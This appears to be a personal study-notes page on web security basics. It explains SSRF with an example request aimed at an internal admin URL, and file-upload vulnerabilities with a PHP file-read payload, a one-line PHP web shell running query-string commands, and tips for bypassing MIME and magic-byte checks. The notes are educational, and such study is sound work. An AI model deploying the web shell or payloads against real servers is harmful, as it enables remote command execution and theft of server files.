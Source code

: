 ```yaml
---

# Table of Contents

---
```

- [SSRF](https://github.com/carnifex17/Cybersecurity-Notes/blob/main/Web%20Security%20Basics.md#ssrf)
- [File Upload](https://github.com/carnifex17/Cybersecurity-Notes/blob/main/Web%20Security%20Basics.md#file-upload-vulnerability)
- []()
- []()
---
# Web Security Basics
---

## SSRF

**SSRF - Server-Side Request Forgery is the attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application**

---

### Example
An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

---

## File Upload Vulnerability

**File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.**

---

### Payloads

Read arbitrary files from the server's filesystem:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
---
Easy oneliner web-shell:
```php
<?php echo system($_GET['command']); ?>
```
This allows you to pass an arbitrary system command via a query parameter as follows:
```
GET /example/exploit.php?command=id HTTP/1.1
```
---

### Security Bypass

1. **MIME Type**. Your browser could check you file type with Content-Type header with different [MIME](https://www.sitepoint.com/mime-types-complete-list/) type value, but if you change it, you also could bypass it
2. **Magic Bytes**. This is synonym for file signatures, and websites could verify file by them also. Shortly, it is first bytes in file, which shows us which filetype it is. List of all magic bytes are [here](https://en.wikipedia.org/wiki/List_of_file_signatures) and a little more about them is [here](https://github.com/carnifex17/Cybersecurity-Notes/blob/main/Linux%20Basics.md)


---







--- 
